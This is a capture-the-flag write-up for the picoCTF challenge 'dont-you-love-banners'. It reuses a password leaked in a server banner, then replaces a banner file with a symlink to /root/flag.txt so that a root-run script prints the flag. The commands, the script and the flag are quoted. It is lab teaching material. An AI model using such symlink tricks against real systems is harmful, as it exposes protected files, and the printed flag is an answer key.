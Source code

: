 # dont-you-love-banners

## Description

Can you abuse the banner?
The server has been leaking some crucial information on tethys.picoctf.net 63223. Use the leaked information to get to the server.

To connect to the running application use nc tethys.picoctf.net 49837. From the above information abuse the machine and find the flag in the /root directory.

## Hints

- Do you know about symlinks?
- Maybe some small password cracking or guessing

## Solution

This is one of the most exciting CTFs I have ever solved. first, let's see what we can get from tethys.picoctf.net 63223 .

```shell
nc tethys.picoctf.net 63223

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Great! we got the password from this leaking server. so let's use it to connect to the second server.

```shell
nc tethys.picoctf.net 49837
```

the server will ask you several questions to let you in. the answers are as follows:

```cmd
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234

What is the top cyber security conference in the world?
def con

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

now you're in! let's do a ```ls -la```.

```shell
player@challenge:~$ ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9 16:39 .
drwxr-xr-x 1 root   root     20 Mar  9 16:39 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7 17:25 banner
-rw-r--r-- 1 root   root     13 Feb  7 17:25 text
```

let's see what's inside banner and text:

```shell
player@challenge:~$ cat banner
*************************************
**************WELCOME****************
*************************************
```

```shell
player@challenge:~$ cat text
keep digging
```

so we need to go deeper. remember that the question specified that we need to find the flag in the /root directory.

```shell
cd /root
```

```shell
ls
flag.txt  script.py
```

looks like we found the flag. let's open it.

```shell
cat: flag.txt: Permission denied
```

As you can see, we need root access to open the file. but worry not! there is another way to get to the flag without root privilage!

look back at the hints:
> Do you know about symlinks?

it seems the challenge is suggesting you to create a symbolic link (symlink) to flag.txt that you can access without root privileges.

but where should we link it to? the challenge suggests that we need to abuse the banner somehow. so let's give it a try.

```shell
mv banner banner_backup
ln -s /root/flag.txt banner
```

read this part carefully:
**Any process that reads banner as your user and displays its contents could potentially display the contents of flag.txt instead, if it follows the symlink.**

but which process can do that for us? what about script.py ? let's look at it's contents:

```shell
cat script.py 
```

```py
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

It's loading banner each time we send a request to log in to the server, which is exactly what we want.

Since we don't have execute permission for script.py and it's owned by root, we won't be able to run it directly. therefore, we open another tab in the terminal and connect to the server one more time so that script.py will be executed:

flag: **picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}**

And there you go.

Happy hacking!
